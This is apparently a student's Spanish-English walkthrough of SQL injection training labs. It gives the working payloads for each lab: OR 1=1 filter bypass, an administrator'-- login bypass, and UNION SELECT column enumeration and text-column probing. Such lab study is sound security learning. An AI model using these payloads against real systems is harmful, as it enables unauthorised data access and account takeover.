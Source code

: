 # know sql inyection laboratories

## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
This lab contains an SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

### solucion

Hacemos las pruebas iniciales

```bash
‘

‘--

' OR 1=1 --   


```
Inicialmente hay una serie de pruebas que hacen que puedas ver si va a ser o no vulnerable.

Hay algunas que dan invalid results y otras no dan fallo de inyección pero no hace nada nuevo. Por este motivo es susceptible de sql inyection así que probamos más cosas.

en este caso la solución es que rellenar los espacios por + , pero es que también podemos usar el espacio como si fuese %20 y también funciona. 

```bash
## Opcion1
%27%20OR%201=1--

## Opcion2 
'+OR+1=1--
```

![](2022-07-06-11-37-17.png)

## Lab: SQL injection vulnerability allowing login bypass

This lab contains an SQL injection vulnerability in the login function.

To solve the lab, perform an SQL injection attack that logs in to the application as the administrator user.

Se soluciona poniendo administrator'-- y en el password ''

![](2022-07-06-11-54-04.png)

## Lab: SQL injection UNION attack, determining the number of columns returned by the query

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing an SQL injection UNION attack that returns an additional row containing null values.

Este tipo de laboratorios son muy fáciles y ni siquiera entro en burpsuite , no tiene mucho sentido para añadir simplemente lo que te acaban de decir en el temario de la academia. 

Lo que hay que hacer es saber que opciones hay para obtener el número de columnas. Haber en principio hay 2 :

    1º es usando el ' ORDER BY 1-- . Aquí se va aumentando el número para ver el número de columnas

    2º ' UNION SELECT NULL-- e ir añadiendo NULL

En el enunciado del laboratorio aparece que usemos el NULL... porque co la primera opción vale pero no resuelve el laboratorio.

En este caso los espacios nos lo da como malos , así que usamos el + para los espacios.

```bash
filter?category=Accessories%27+UNION+SELECT+NULL,NULL,NULL--
```


## Lab: SQL injection UNION attack, finding a column containing text

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform an SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

Una vez que sabemos por el laboratorio anterior que el número de columnas es 3 , podemos permutar para ver los erres.

```bash
' UNION SELECT 'QhDKgq',NULL,NULL--
' UNION SELECT NULL,'QhDKgq',NULL--   --> no da error
' UNION SELECT NULL,NULL,'QhDKgq'--
```

```bash
'+UNION+SELECT+'QhDKgq',NULL,NULL--
'+UNION+SELECT+NULL,'QhDKgq',NULL--   --> no da error
'+UNION+SELECT+NULL,NULL,'QhDKgq'--
```
Seguramente hará falta poner el + en los espacios. 



Make the database retrieve the string: 'QhDKgq'

```bash
/filter?category=Accessories'+UNION+SELECT+NULL,'QhDKgq',NULL--   --> y solved
```

![](2022-07-06-14-07-42.png)

![](2022-07-06-14-08-03.png)